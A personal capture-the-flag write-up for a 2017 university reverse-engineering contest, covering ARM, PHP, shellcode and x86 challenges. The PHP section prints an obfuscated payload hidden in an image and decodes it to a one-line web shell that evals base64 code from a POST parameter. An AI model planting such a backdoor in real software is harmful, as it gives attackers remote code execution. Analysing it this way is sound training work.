

# Dakota State University and University of Nebraska-Kearny Reverse Engineering CTF 2017

This CTF was fun :D

I managed to solve all the challenges but some guy named *Nick* managed to
finish before me so he got moar points.
To my defense, I was playing in a totally different timezone.

Most of the challenges involved obfuscated (pseudo-)malware so there's no much
point in explaining how I gradually deobfuscated them.
They were simple enough to not require complex automated tools.

Some solutions are missing because I deleted the challenge file so I can't
review them, others because they require a lengthy manual process of analysis
that I can't really explain without writing a ton of text here.

## ARM

### Challenge 1

I don't remember anymore, but I recall the issue was check which one of the
flags embedded in the binary was the real one (instead of just submitting
the first you see).

### Challenge 2

In the `main()` for the binary, just keep track of the value of R0.
Each value is the ASCII value of a character of the flag.
I copied the interesting part of the disassembly and implemented a dumb DIY
emulator. Just run the [arm_2.py](arm_2.py) to get the flag.

### Challenge 3

This challenge is similar to the previous one, but the value of R0 is changed
in a ROP fashion.
I once again implemented a dumb emulator to unfold the ROP.
You can find it in [arm_3.py](arm_3.py).

## PHP

### Challenge 1

`index.php` includes an image as if it was a php file.
We open the image and keep the final part, which is valid PHP code.
Now we can replace `eval(...)` with `echo "$do_me\n";` and put the file inside
a php tag `<?php ...code... ?>`.

Now we can do `php image.php` and get
```php
$_= 'aWYoaXNzZXQoJF9QT1NUWyJldmlsIl0pKXtldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUWyJldmlsIl0pKTsvKmV2aWxAZHN1LmVkdSovfQ==';$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```

Replace `eval` with `print`, put in a php file and run it again:
```php
$code=base64_decode($_);eval($code);
```

Let's see what's inside the base64-encoded `$_` variable:
```bash
$ echo aWYoaXNzZXQoJF9QT1NUWyJldmlsIl0pKXtldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUWyJldmlsIl0pKTsvKmV2aWxAZHN1LmVkdSovfQ== | base64 -d
if(isset($_POST["evil"])){eval(base64_decode($_POST["evil"]));/*evil@dsu.edu*/}
```

And there it is :)

### Challenge 2

This is similar to the previous, but more complicated.
Special care must be taken to avoid eval'ing code which we don't control, but I
managed to solve it with the same "eval => print" style.

By the way, printing stuff as you go is also a technique which works for simple
javascript challenges.

## Shellcode

The flag is hidden in the final part of the outer function.
It runs two loops that reassemble the flag from the string at the end of the
binary.
The logic is reimplemented in [shellcode.py](shellcode.py).
The `shellcode` file is copied as-is from the challenge.
If you want me to remove it please contact me.

## x86

### Challenge 1

I deleted the file, but the flag is embedded as a string in it, so you can get
it by simply running `strings <filename> | grep @`.

### Challenge 2

The file for this challenge was an EXE requiring two different password, that
once contatenated formed the flag.

The first password was checked inside the function at `.text:00401120`.
It loads two hardcoded magic values in memory and then XORs them byte per byte.
One of the values read `DEADCODE` so this hints that we are in the right
direction.
I reimplemented the check in python inside [x86_2_0.py](x86_2_0.py).

The second password was checked in the function at `.text:00401210`.
I couldn't get the binary to get past the first check even if I had the correct
password so I simply modded the file to jump directly to the second check.
We don't really have to understand the function completely to solve the
challenge, because for every input character the application prints the value it
expected.
So I hacked together an ugly python script to bruteforce it char-by-char.
The final script is file [x86_2_1.py](x86_2_1.py).
It's really ugly but it works and I just wanted something quick to write.
**Note:** the script is supposed to be run on Linux with `wine` installed.

### Challenge 3

The file was the dump of a MBR.
You can easily verify it using `file <name of the file>`.
Once set up to run inside bochs, it started showing random-looking text:



The 16-bit assembly code in the MBR is printing some weird strings using the
BIOS's built-in functionalities.
Basically, it starts from an hard-coded array of 16-bit words and cyclically
XOR them with the same key.
This key is incremented every time the string is printed to the screen.

At this point, I was lost for a good amount of hours (too many, actually) since
I couldn't think of a way to turn this knowledge into a valid flag.
I reimplemented the ASM logic in python but I was totally lost.
In desperation, I did the simplest thing I could do: discard all the strings
which contained non-printable ASCII characters.
To my surprise, only one such string was outputted by my script and its XOR key
was 0x1337, so I knew I found the correct value.

The final script to get the flag is implemented in [x86_3.py](x86_3.py).

